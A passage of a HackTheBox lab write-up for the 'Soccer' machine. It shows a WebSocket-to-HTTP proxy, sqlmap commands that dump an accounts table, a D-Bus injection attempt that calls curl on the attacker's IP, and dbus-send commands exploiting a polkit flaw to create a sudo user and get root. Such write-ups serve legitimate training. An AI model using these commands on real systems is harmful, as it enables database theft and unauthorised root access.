A new football portal, where this time you can _register_ and _login_. I then registered on the portal and browsed the pages of the area reserved for users.

Registration gave me a _ticket_ to the next stream of the most anticipated matches. However, the interface led me to think of a possible **SQLi**\-type vulnerability. Let's check with **sqlmap**.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://soc-player.soccer.htb/check" --data "id=86969" --method POST --risk 3 --level 5 --batch --dbs
            ___
           __H__                                                                                                                                                                                             
     ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . [']     | .'| . |                                                                                                                                                                                
    |___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 05:42:18 /2023-01-28/
    
    [05:42:18] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own ('connect.sid=s%3Ach9DcEO...T7JTx4yBkE'). Do you want to use those [Y/n] Y
    [05:42:19] [INFO] testing if the target URL content is stable
    [05:42:19] [INFO] target URL content is stable
    [05:42:19] [INFO] testing if POST parameter 'id' is dynamic
    [05:42:19] [WARNING] POST parameter 'id' does not appear to be dynamic
    [05:42:19] [WARNING] heuristic (basic) test shows that POST parameter 'id' might not be injectable
    [05:42:19] [INFO] testing for SQL injection on POST parameter 'id'
    [05:42:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [...]
    [05:50:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
    [05:50:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
    [05:50:44] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
    [05:50:50] [INFO] POST parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)' injectable 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    [05:50:50] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [05:50:50] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [05:50:58] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
    [05:51:02] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
    [...]
    [05:56:55] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
    [05:57:04] [WARNING] parameter 'Host' does not seem to be injectable
    [05:57:04] [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'                                                                                                                                        
    [05:57:04] [WARNING] HTTP error codes detected during run:
    400 (Bad Request) - 1 times
    
    [*] ending @ 05:57:04 /2023-01-28/

After waiting quite a while in vain, nothing comes out... how strange. Let's take a look at the page.

    [...]
    <form method="GET">
          

             <input type="text" name="id" id="id" class="form-control">
          

    </form>
    [...]
    
    [...]

Here's the mystery: Apparently, calls to the backend are made via **WebSocket**. I played a bit with **BurpSuite**, and I discovered that the calls are not _authenticated_ (also understandable from the code honestly). Unfortunately, **sqlmap** does not support the **websocket** protocol, and if I wanted to exploit its capabilities, I would have to _forward_ **sqlmap**'s **http** calls over the **ws** protocol. I searched a bit for some tools that performed this type of operation, but in the end, I opted to write it myself in **node.js** (actually, I had our friend **ChatGPT** write it).

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/tests]
    └─$ cat script.js    
    const http = require('http');
    const WebSocket = require('ws');
    
    const server = http.createServer((req, res) => {
      // Get the querystring from the HTTP request
      const query = require('url').parse(req.url, true).query;
    
      // Create a WebSocket connection to the desired endpoint
      const ws = new WebSocket('ws://soc-player.soccer.htb:9091');
    
      // When the WebSocket is open, send the query as a JSON object
      ws.on('open', () => {
        ws.send(JSON.stringify(query));
      });
    
      // When a message is received from the WebSocket, write it to the HTTP response
      ws.on('message', (data) => {
        res.write(data);
        res.end();
      });
    });
    
    server.listen(8080, () => {
      console.log('HTTP server listening on port 8080');
    });
    
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/tests]
    └─$ node script.js 
    HTTP server listening on port 8080

And we ran the **sqlmap** scan again, but this time on _localhost_.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://localhost:8080/?id=86969" --risk 3 --level 5 --batch --dbs                                          
            ___
           __H__                                                                                                                                                                                             
     ___ ___[,]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . [']     | .'| . |                                                                                                                                                                                
    |___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 16:54:59 /2023-01-29/
    
    [16:54:59] [INFO] testing connection to the target URL
    [16:55:02] [INFO] testing if the target URL content is stable
    [16:55:06] [INFO] target URL content is stable
    [16:55:06] [INFO] testing if GET parameter 'id' is dynamic
    [16:55:09] [WARNING] GET parameter 'id' does not appear to be dynamic
    [16:55:12] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
    [16:55:16] [INFO] testing for SQL injection on GET parameter 'id'
    [16:55:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [16:56:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
    [16:57:00] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
    [16:57:35] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    [16:57:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
    [...]
    [16:59:32] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
    [17:00:32] [INFO] GET parameter 'id' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
    [17:00:32] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [...]

Finally, something started to come out, but the constant disconnections made my job difficult, and I had to interrupt and try again several times. It took me a lot of time to find some helpful information.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://localhost:8080/?id=86969"  --dump-all
            ___
           __H__                                                                                                                                                                                             
     ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . [.]     | .'| . |                                                                                                                                                                                
    |___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 17:15:26 /2023-01-29/
    
    [17:15:26] [INFO] testing connection to the target URL
    [17:15:27] [INFO] testing if the target URL content is stable
    [17:15:27] [INFO] target URL content is stable
    [17:15:27] [INFO] testing if GET parameter 'id' is dynamic
    [17:15:27] [WARNING] GET parameter 'id' does not appear to be dynamic
    [17:15:28] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
    [17:15:28] [INFO] testing for SQL injection on GET parameter 'id'
    [17:15:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [17:15:30] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
    [17:15:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
    [17:15:33] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
    [17:15:34] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
    [17:15:36] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
    [17:15:38] [INFO] testing 'Generic inline queries'
    [17:15:38] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
    [17:15:40] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
    [17:15:41] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
    [17:15:43] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [17:15:54] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    [17:16:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [17:16:23] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [17:16:31] [INFO] target URL appears to be UNION injectable with 3 columns
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
    [17:17:04] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
    [17:17:04] [INFO] checking if the injection point on GET parameter 'id' is a false positive
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=86969 AND (SELECT 1649 FROM (SELECT(SLEEP(5)))Pibi)
    ---
    [17:17:37] [INFO] the back-end DBMS is MySQL
    [17:17:37] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
    back-end DBMS: MySQL >= 5.0.12
    [17:17:38] [INFO] sqlmap will dump entries of all tables from all databases now
    [17:17:38] [INFO] fetching database names
    [17:17:38] [INFO] fetching number of databases
    [17:17:38] [INFO] retrieved: 
    do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
    5
    [17:18:02] [INFO] retrieved: 
    [17:18:07] [INFO] adjusting time delay to 2 seconds due to good response times
    mysql
    [17:18:51] [INFO] retrieved: information_schema
    [17:21:32] [INFO] retrieved: p
    [17:21:56] [ERROR] invalid character detected. retrying..
    [17:21:56] [WARNING] increasing time delay to 3 seconds
    erformance_schema
    [17:25:08] [INFO] retrieved: sys
    [17:25:46] [INFO] retrieved: soccer_db
    [17:27:38] [INFO] fetching tables for databases: 'information_schema, mysql, performance_schema, soccer_db, sys'
    [17:27:38] [INFO] fetching number of tables for database 'soccer_db'
    [17:27:38] [INFO] retrieved: 1
    [17:27:43] [INFO] retrieved: accounts
    [17:29:18] [INFO] fetching number of tables for database 'sys'
    [17:29:18] [INFO] retrieved: 1
    [17:29:28] [ERROR] invalid character detected. retrying..
    [17:29:28] [WARNING] increasing time delay to 4 seconds
    01
    [17:29:44] [INFO] retrieved: h
    [17:30:49] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    [17:30:49] [CRITICAL] unable to connect to the target URL ('Connection refused')
    
    [*] ending @ 17:30:49 /2023-01-29/

I found the name of the db and tables, started another scan, but adjusted the shot.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ sqlmap -u "http://localhost:8080/?id=86969" -D soccer_db -T accounts --dump 
            ___
           __H__                                                                                                                                                                                             
     ___ ___["]_____ ___ ___  {1.6.12#stable}                                                                                                                                                                
    |_ -| . ["]     | .'| . |                                                                                                                                                                                
    |___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                
          |_|V...       |_|   https://sqlmap.org                                                                                                                                                             
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 17:45:36 /2023-01-29/
    
    [17:45:37] [INFO] resuming back-end DBMS 'mysql' 
    [17:45:37] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=86969 AND (SELECT 1649 FROM (SELECT(SLEEP(5)))Pibi)
    ---
    [17:45:37] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12
    [17:45:37] [INFO] fetching columns for table 'accounts' in database 'soccer_db'
    [17:45:37] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                          
    do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
    [17:45:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
    [...]
    [18:13:07] [WARNING] potential binary fields detected ('password'). In case of any problems you are advised to rerun table dump with '--fresh-queries --binary-fields="password"'
    [18:13:07] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    [18:13:19] [INFO] writing hashes to a temporary file '/tmp/sqlmapj35xv7hs80624/sqlmaphashes-qrz3jvga.txt' 
    [...]
    Database: soccer_db
    Table: accounts
    [1 entry]
    +------+-------------------+-------------------------+----------+
    | id   | email             | password                | username |
    +------+-------------------+-------------------------+----------+
    | 1324 | player@player.htb | PlayerOftheMa\x81ch2022 | player   |
    +------+-------------------+-------------------------+----------+
    
    [18:14:50] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/in7rud3r/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
    [18:14:50] [INFO] fetched data logged to text files under '/home/in7rud3r/.local/share/sqlmap/output/localhost'
    
    [*] ending @ 18:14:50 /2023-01-29/

Some connection error messed up one of the characters, but it's not too difficult to understand the password anyway (_PlayerOftheMatch2022_), and where to use these credentials if not on the **ssh** connection?

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ ssh player@soccer.htb                                                      
    The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
    ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'soccer.htb' (ED25519) to the list of known hosts.
    player@soccer.htb's password: 
    Permission denied, please try again.
    player@soccer.htb's password: 
    Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Sun Jan 29 23:17:07 UTC 2023
    
      System load:           0.03
      Usage of /:            70.1% of 3.84GB
      Memory usage:          21%
      Swap usage:            0%
      Processes:             229
      Users logged in:       0
      IPv4 address for eth0: 10.10.11.194
      IPv6 address for eth0: dead:beef::250:56ff:feb9:ff96
    
     * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
       just raised the bar for easy, resilient and secure K8s cluster deployment.
    
       https://ubuntu.com/engage/secure-kubernetes-at-the-edge
    
    0 updates can be applied immediately.
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Sun Jan 29 22:52:43 2023 from 10.10.14.81
    player@soccer:~$ pwd
    /home/player
    player@soccer:~$ ls -la
    total 32
    drwxr-xr-x 4 player player 4096 Jan 29 22:55 .
    drwxr-xr-x 3 root   root   4096 Nov 17 09:25 ..
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .bash_history -> /dev/null
    -rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 player player 3771 Feb 25  2020 .bashrc
    drwx------ 2 player player 4096 Nov 17 09:00 .cache
    drwxrwxr-x 3 player player 4096 Jan 29 22:55 .local
    -rw-r--r-- 1 player player  807 Feb 25  2020 .profile
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .viminfo -> /dev/null
    -rw-r----- 1 root   player   33 Jan 29 22:37 user.txt
    player@soccer:~$ cat user.txt 
    7*********************************a

The first flag was found. Let's take a look around and try to understand what we have available.

    -bash-5.0$ sudo -l
    [sudo] password for player: 
    Sorry, user player may not run sudo on localhost.

Nothing special. I started a new session of **linpeas**, and, for simplicity, I made a comparison with the previous scan, just to limit the objectives.

    [...]
    ╔══════════╣ Container related tools present
    /snap/bin/lxc
    [...]
    ╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
      Group player:
    /usr/local/share/dstat
    [...]

Mha, apart from these two points, the rest seem more or less the same to me and less than the particular permissions of this new user, for the moment I can leave them out. Just to leave nothing to chance, I take a look at the processes and find something that attracts my attention.

    -bash-5.0$ ps -aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    player      8742  0.0  0.2  19080  9760 ?        Ss   20:00   0:00 /lib/systemd/systemd --user
    player     11905  0.0  0.0   7108  3968 ?        Ss   20:05   0:00 /usr/bin/dbus-daemon --session --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
    player     29037  0.0  0.0  10808  3580 pts/3    R+   20:22   0:00 ps -aux

It appears that the current user is running a service. Really strange. The service in question is **d-bus**.

[dbus-daemon](https://dbus.freedesktop.org/doc/dbus-daemon.1.html?ref=secjuice.com)

As always, I did some research and discovered something interesting.

[D-Bus Enumeration & Command Injection Privilege Escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation?ref=secjuice.com)

Having understood that the service can be exploited for a **privesc** and with some more info, I began to investigate inside the BOX for some additional info that can guide me in the escalation.

    -bash-5.0$ ls -la /etc/dbus-1/
    total 16
    drwxr-xr-x   4 root root 4096 Nov 15 21:38 .
    drwxr-xr-x 101 root root 4096 Dec 13 07:44 ..
    drwxr-xr-x   2 root root 4096 Dec  7  2019 session.d
    drwxr-xr-x   2 root root 4096 Nov 15 21:40 system.d
    -bash-5.0$ ls -la /etc/dbus-1/session.d/
    total 8
    drwxr-xr-x 2 root root 4096 Dec  7  2019 .
    drwxr-xr-x 4 root root 4096 Nov 15 21:38 ..
    -bash-5.0$ ls -la /etc/dbus-1/system.d/
    total 40
    drwxr-xr-x 2 root root  4096 Nov 15 21:40 .
    drwxr-xr-x 4 root root  4096 Nov 15 21:38 ..
    -rw-r--r-- 1 root root   733 Aug 13  2019 com.ubuntu.LanguageSelector.conf
    -rw-r--r-- 1 root root   662 Oct 26  2021 com.ubuntu.SoftwareProperties.conf
    -rw-r--r-- 1 root root   917 Apr 23  2019 org.freedesktop.Accounts.conf
    -rw-r--r-- 1 root root 14879 Apr  8  2022 org.freedesktop.ModemManager1.conf
    -rw-r--r-- 1 root root  1331 Sep 23  2020 org.freedesktop.PackageKit.conf

After playing around with a few commands, I have a sign that I evaluated.

    -bash-5.0$ dbus-send --system --print-reply --dest=org.freedesktop.ModemManager1 /org/freedesktop/ModemManager1 org.freedesktop.ModemManager1.ScanDevices string:';curl http://10.10.14.137/hacked'
    Error org.freedesktop.DBus.Error.InvalidArgs: Type of message, “(s)”, does not match expected type “()”

After a few days, I picked up where I left off and I realized that that clue from the service had disappeared.

    player@soccer:~$ ps -aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    player      2888  0.8  0.2  19112  9588 ?        Ss   11:20   0:00 /lib/systemd/systemd --user
    player      2975  0.6  0.1   9988  5000 pts/0    Ss   11:20   0:00 -bash
    player      2983  0.0  0.0  10808  3592 pts/0    R+   11:20   0:00 ps -aux
    player@soccer:~$ uptime -s
    2023-02-05 08:49:08
    player@soccer:~$ date
    Sun Feb  5 11:21:52 UTC 2023

It could be that it was a stroke of luck and that the service in plain sight had been left there by some other... colleague... perhaps I should change course, but now I've gotten too far into this aspect, I'll check if at least the service is in execution.

    player@soccer:~$ service dbus status
    ● dbus.service - D-Bus System Message Bus
         Loaded: loaded (/lib/systemd/system/dbus.service; static; vendor preset: enabled)
         Active: active (running) since Sun 2023-02-05 08:49:19 UTC; 2h 33min ago
    TriggeredBy: ● dbus.socket
           Docs: man:dbus-daemon(1)
       Main PID: 773
          Tasks: 1 (limit: 4640)
         Memory: 2.8M
         CGroup: /system.slice/dbus.service
                 └─773 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
    
    Warning: some journal files were not opened due to insufficient permissions.

The service is there and running. I'm tempted to go on, even if the clue has been picked up in some not-quite-correct form. Perhaps this is not the intended path, but we will only find out when the BOX is withdrawn. I am always looking for exploits that can come in handy...

[Polkit 0.105-26 0.117-2 - Local Privilege Escalation](https://www.exploit-db.com/exploits/50011?ref=secjuice.com)

Unfortunately, this also doesn't work as it should.

    -bash-5.0$ ./f.sh
    [*] Vulnerable version of polkit found
    [*] Determining dbus-send timing
    [*] Attempting to create account

Continued to search...

[https://www.safe.security/assets/img/research-paper/pdf/polkit-vulnerability.pdf](https://www.safe.security/assets/img/research-paper/pdf/polkit-vulnerability.pdf?ref=secjuice.com)

And this time it's the good one.

    bash-5.0# time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:rohit string:"Rohit Verma" int32:1
    method return time=1675630790.684886 sender=:1.1 -> destination=:1.12831 serial=25098 reply_serial=2
       object path "/org/freedesktop/Accounts/User1000"
    
    real    0m0.203s
    user    0m0.001s
    sys     0m0.004s
    bash-5.0# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"Rohit Verma" int32:1
    method return time=1675631154.438356 sender=:1.1 -> destination=:1.12832 serial=25113 reply_serial=2
       object path "/org/freedesktop/Accounts/User1002"
    bash-5.0# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.007s ; kill $!
    [1] 106207
    Error org.freedesktop.Accounts.Error.UserExists: A user with name 'hack' already exists
    [1]+  Exit 1                  dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"Boris Ivanovich Grishenko" int32:1
    bash: kill: (106207) - No such process
    bash-5.0# id hack
    uid=1002(hack) gid=1002(hack) groups=1002(hack),27(sudo)
    bash-5.0# openssl passwd -5 1234
    $5$JN4Juo654cVM0N3b$feM024QSeuCxuy/3Q.Fh6SxffbPW2a15ThQT1t1UCi7
    bash-5.0# dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$JN4Juo654cVM0N3b$feM024QSeuCxuy/3Q.Fh6SxffbPW2a15ThQT1t1UCi7' string:GoldenEye & sleep 0.008s ; kill $!
    [1] 106324
    bash-5.0# whoami
    root
    [1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$JN4Juo654cVM0N3b$feM024QSeuCxuy/3Q.Fh6SxffbPW2a15ThQT1t1UCi7' string:GoldenEye
    bash-5.0# cat /root/root.txt
    6******************************7

And once again... that's all, folks. Don't miss the article in which an AI challenges an HTB BOX and finds out who won. For the moment, goodbye, but only until the next BOX. Happy hackin,g everyone!
